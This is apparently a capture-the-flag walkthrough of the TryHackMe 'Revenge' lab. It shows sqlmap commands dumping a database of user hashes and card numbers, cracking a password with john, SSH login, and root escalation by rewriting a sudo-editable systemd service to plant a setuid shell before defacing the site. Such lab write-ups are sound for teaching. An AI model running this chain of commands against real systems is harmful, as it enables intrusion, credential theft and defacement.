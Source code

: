 #Revenge | Billy's revenge.


its running website on port 80.
--------------------------------------------------------------------
Running sqlmap to see if this website is vulnrable to sql injection or not.
--------------------------------------------------------------------
command: sqlmap -u http://revenge.thm/products/1 --current-db
--------------------------------------------------------------------

found current database: duckyinc
--------------------------------------------------------------------

searching tables for that database
--------------------------------------------------------------------
command: sqlmap -u http://revenge.thm/products/1 -D duckinc --tables
--------------------------------------------------------------------
we found 3 tables in this database.

Database: duckyinc                                                                                            
[3 tables]
+-------------+
| system_user |
| user        |
| product     |
+-------------+
--------------------------------------------------------------------
Now we will dump the data out from those 3 tables using the following command.
--------------------------------------------------------------------
Command: sqlmap -u http://revenge.thm/products/1 -D duckinc --dump
--------------------------------------------------------------------

Database: duckyinc                                                                                            
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
+----+----------------------+--------------+--------------------------------------------------------------+

---------------------------------------------------------------------------------------------------------------

Database: duckyinc                                                                                            
Table: user
[10 entries]
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |

| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |

| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+

--------------------------------------------------------------------
Got the 1st flag in database tables called: users entry no:6
and after that lets try to crack some hashes we got from database.
--------------------------------------------------------------------


so we got the hash for the users so lets try to crack some hashes.
-------------------------------------------------------------------
john --wordlist=/usr/share/wordlists/rockyou.txt s_admin.hash
-------------------------------------------------------------------

we found the password for server-admin: inuyasha


let try login to ssh using the credentials: server-admin:inuyasha
------------------------------------------------------------------
ssh server-admin@revenge.thm 
------------------------------------------------------------------

after login there is flag2 in home directory.

let try for prevesc.

lets find what sudo commands we can run from current users.
-----------------------------------------------------------------
command: sudo -l // To list all the sudo commands.
-----------------------------------------------------------------

so we found that we can run, restart and even edit duckyink.service as sudo so let edit it to prevesc.
-------------------------------------------------------------------
edit: ExecStart=/bin/bash /tmp/ro.sh
and even change 

User=root
Group=root
-------------------------------------------------------------------

lets create a script that we mentioned above in service.
command: nano /tmp/ro.sh

#!/bin/bash
cp /bin/bash /tmp/sh
chmod +s /tmp/sh
-------------------------------------------------------------------
Since we edited the service we need to reload daemon and after restarting the script executes as root.

command: sudo /bin/systemctl daemon-reload 
command: sudo /bin/systemctl restart duckyinc.service
-------------------------------------------------------------------

lets check that we have sh file in tmp folder.
command: ls /tmp
and then run the following command to get root access.

command: /tmp/sh -p # p to preserve euid
-------------------------------------------------------------------

now edit the index page as our mission is to deface the home page.

command: nano /var/www/duckyinc/templates/index.html

change any line of code.
-------------------------------------------------------------------

now check root folder for the final flag.
command: ls -l /root
found our last flag in root folder.
-------------------------------------------------------------------